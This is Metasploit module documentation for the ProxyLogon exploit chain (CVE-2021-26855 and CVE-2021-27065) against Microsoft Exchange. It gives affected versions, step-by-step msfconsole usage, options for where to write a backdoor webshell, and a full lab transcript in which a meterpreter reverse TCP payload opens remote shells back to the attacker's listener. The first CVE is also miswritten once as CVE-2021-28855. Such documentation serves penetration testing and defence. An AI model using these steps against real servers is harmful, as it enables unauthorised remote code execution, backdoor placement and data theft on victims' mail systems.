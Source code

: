 ## Vulnerable Application

CVE-2021-28855 is a pre-authentication SSRF (Server Side Request Forgery) which allows an attacker to
bypass authentication by sending specially crafted HTTP requests. This vulnerability is part of an attack
chain used to perform an RCE (Remote Code Execution).

CVE-2021-27065 is a post-auth arbitrary-file-write vulnerability to get code execution and the second part
of ProxyLogon attack chain.

This vulnerability affects (Exchange 2013 Versions < 15.00.1497.012, Exchange 2016 CU18 < 15.01.2106.013,
Exchange 2016 CU19 < 15.01.2176.009, Exchange 2019 CU7 < 15.02.0721.013, Exchange 2019 CU8 < 15.02.0792.010).

### Introduction

This module exploit a vulnerability on Microsoft Exchange Server that allows an attacker bypassing the
authentication, impersonating as the admin (CVE-2021-26855) and write arbitrary file (CVE-2021-27065) to
get the RCE (Remote Code Execution).

By taking advantage of this vulnerability, you can execute arbitrary commands on the remote Microsoft
Exchange Server.

All components are vulnerable by default.

## Verification Steps

1. Start msfconsole
2. Do: `use exploit/windows/http/exchange_proxylogon_rce`
3. Do: `set RHOSTS [IP]`
4. Do: `set EMAIL [EMAIL ADDRESS]`
5. Do: `run`

## Options

### EMAIL

A known email address for this organization.

### METHOD

HTTP Method to use for the check (only). Default: POST

### UseAlternatePath

Use the IIS root dir as alternate path. Default: false

## Advanced Options

### ExchangeBasePath

The base path where exchange is installed. Default: C:\Program Files\Microsoft\Exchange Server\V15

### ExchangeWritePath

The path where you want to write the backdoor. Default: owa\auth

You can for example, define to: ecp\auth

### IISBasePath

The base path where IIS wwwroot directory is. Default: C:\inetpub\wwwroot

### IISWritePath

The path where you want to write the backdoor. Default: aspnet_client

### MapiClientApp

This is MAPI client version sent in the request.

### MaxWaitLoop

Max counter loop to wait for OAB Virtual Dir reset. Default: 30

## Scenarios

```
msf6 exploit(windows/http/exchange_proxylogon_rce) > options 

Module options (exploit/windows/http/exchange_proxylogon_rce):

   Name              Current Setting           Required  Description
   ----              ---------------           --------  -----------
   EMAIL             gaston.lagaffe@pwned.lab  yes       A known email address for this organization
   METHOD            POST                      yes       HTTP Method to use for the check (Accepted: GET, POST)
   Proxies                                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS            172.20.2.112              yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT             443                       yes       The target port (TCP)
   SRVHOST           0.0.0.0                   yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT           8080                      yes       The local port to listen on.
   SSL               true                      no        Negotiate SSL/TLS for outgoing connections
   SSLCert                                     no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                                     no        The URI to use for this exploit (default is random)
   UseAlternatePath  false                     yes       Use the IIS root dir as alternate path
   VHOST                                       no        HTTP server virtual host


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.20.2.12      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows Powershell


msf6 exploit(windows/http/exchange_proxylogon_rce) > run

[*] Started reverse TCP handler on 172.20.2.12:4444 
[*] Executing automatic check (disable AutoCheck to override)
[*] Using auxiliary/scanner/http/exchange_proxylogon as check
[+] https://172.20.2.112:443 - The target is vulnerable to CVE-2021-26855.
[*] Scanned 1 of 1 hosts (100% complete)
[+] The target is vulnerable.
[*] https://172.20.2.112:443 - Attempt to exploit for CVE-2021-26855
[*] Internal server name (EX02)
[*] https://172.20.2.112:443 - Sending autodiscover request
[*] Server: c7f46eae-bac1-49e7-8502-afe90609ea7f@pwned.lab
[*] LegacyDN: /o=Pwned Exch2k13-HA/ou=Exchange Administrative Group (FYDIBOHF23SPDLT)/cn=Recipients/cn=683c605c88c14fcca1f5e74d0d136461-Gaston
[*] https://172.20.2.112:443 - Sending mapi request
[*] SID: S-1-5-21-3876225949-3666446388-246247518-1156 (gaston.lagaffe@pwned.lab)
[*] https://172.20.2.112:443 - Sending ProxyLogon request
[*] Try to get a good msExchCanary (by patching user SID method)
[*] ASP.NET_SessionId: 3ae8f52c-0bf6-4162-9c0b-0109a14e3e4d
[*] msExchEcpCanary: lKd1HMX_BUeIdxUPUn1DSb-NkT8e7tgI4QztptiaeDm3UQXooMuAWr7VCMvS2PD48epSe1wUS50.
[*] OAB id: ef3febbd-6cdf-4dd4-8dbb-f4376d8cc591 (OAB (Default Web Site))
[*] https://172.20.2.112:443 - Attempt to exploit for CVE-2021-27065
[*] Prepare the payload on the remote target
[*] Write the payload on the remote target
[!] Wait a lot (0)
[+] Yeeting windows/x64/meterpreter/reverse_tcp payload at 172.20.2.112:443
[*] Sending stage (200262 bytes) to 172.20.2.112
[*] Meterpreter session 17 opened (172.20.2.12:4444 -> 172.20.2.112:25626) at 2021-03-21 21:08:23 +0400
[*] Sending stage (200262 bytes) to 172.20.2.112
[*] Meterpreter session 18 opened (172.20.2.12:4444 -> 172.20.2.112:25627) at 2021-03-21 21:08:23 +0400
[+] Deleted C:\Program Files\Microsoft\Exchange Server\V15\FrontEnd\HttpProxy\owa\auth\mmjhfIC.aspx

meterpreter > 
```

## References

1. <https://proxylogon.com/>
2. <http://aka.ms/exchangevulns>
3. <https://www.praetorian.com/blog/reproducing-proxylogon-exploit>
4. <https://testbnull.medium.com/ph%C3%A2n-t%C3%ADch-l%E1%BB%97-h%E1%BB%95ng-proxylogon-mail-exchange-rce-s%E1%BB%B1-k%E1%BA%BFt-h%E1%BB%A3p-ho%C3%A0n-h%E1%BA%A3o-cve-2021-26855-37f4b6e06265>
